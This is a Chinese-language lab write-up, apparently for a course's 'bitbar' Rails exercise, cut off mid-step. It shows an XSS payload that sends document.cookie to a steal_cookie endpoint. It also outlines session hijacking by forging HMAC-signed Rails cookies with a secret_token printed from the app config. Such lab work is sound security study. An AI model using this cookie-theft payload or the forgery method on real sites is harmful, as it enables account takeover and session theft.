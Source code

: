 ```html
<script type="text/javascript">var x = new XMLHttpRequest();x.open("GET", "http://localhost:3000/steal_cookie?cookie="+(document.cookie));x.send()</script>
```



 Attack 2: Session hijacking with Cookies

[参考这篇文章](https://ruby-china.org/topics/34235)


> 上图说明了原始的 Session 对象 **Session Data** 是如何最终生成 Cookie 的

原来的加密过程：

1. 序列化
2. 填充，aes-cbc加密，结果用base64编码
3. hmac-sha1签名
4. 将加密的数据和签名通过 `--` 连接

但是意外地发现，bitbar的cookie并没有aes加密，可以通过

1. base64解码
2. 反序列化

得到原始信息，那么这么一来，就只需要绕过验签这一个障碍了

在 `config/initializers/secret_token.rb` 中

```ruby
 Be sure to restart your server when you modify this file.

 Your secret key is used for verifying the integrity of signed cookies.
 If you change this key, all old signed cookies will become invalid!

 Make sure the secret is at least 30 characters and all random,
 no regular words or you'll be exposed to dictionary attacks.
 You can use `rake secret` to generate a secure secret key.

 Make sure your secret_key_base is kept private
 if you're sharing your code publicly.
Bitbar::Application.config.secret_token = '0a5bfbbb62856b9781baa6160ecfd00b359d3ee3752384c2f47ceb45eada62f24ee1cbb6e7b0ae3095f70b0a302a2d2ba9aadf7bc686a49c8bac27464f9acb08'
```

这就是hmac-sha1的加解密密钥

ok，到此为止我们就能伪造数据了

1. attacke用户登陆，获取到当前的cookie
2. 修改cookie值

这里需要用到 `mechanize` 这个包，安装

```
gem install mechanize
```

模拟登陆实现
